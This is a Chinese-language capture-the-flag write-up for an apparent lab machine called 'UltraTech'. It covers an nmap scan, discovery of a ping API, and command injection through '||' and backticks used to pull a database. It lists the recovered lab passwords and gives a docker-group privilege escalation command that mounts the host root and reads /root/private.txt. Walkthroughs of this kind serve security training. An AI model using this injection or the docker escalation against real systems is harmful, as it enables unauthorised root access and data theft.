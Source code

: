 
## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p21,22,8081,31331 10.10.215.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-30 07:53 EDT
Nmap scan report for 10.10.215.7
Host is up (0.36s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.10 (93%), Linux 3.12 (93%), Linux 3.18 (93%), Linux 3.19 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.47 seconds
```

## web渗透

8081端口提供api服务
31331是web
那么访问31331
查看robots.txt
得到三个路径
有用的就是`/partners.html`
这是登录界面
输入登录信息会调用8081的/auth接口
![](images/2024-04-30-20-54-16.png)
此时到这里有个思路就是sql注入，but尝试了一下好像并没有bypass的思路
于是目录扫描
在/js目录发现api服务的构造函数
![](images/2024-04-30-20-55-52.png)
有个ping执行的api服务
![](images/2024-04-30-20-57-58.png)
![](images/2024-04-30-20-57-18.png)
这里通过||管道符及``可以执行命令
将数据库文件下载下来
![](images/2024-04-30-20-58-53.png)
![](images/2024-04-30-20-59-13.png)
得到一个密码
那就可以登陆了
admin/mrsheafy
r00t/n100906
![](images/2024-04-30-21-44-51.png)

## 提权
ssh连上，docker提权。。。。
```bash
r00t@ultratech-prod:/tmp$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
# ls /root
private.txt
# cat /root/private.txt
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful

```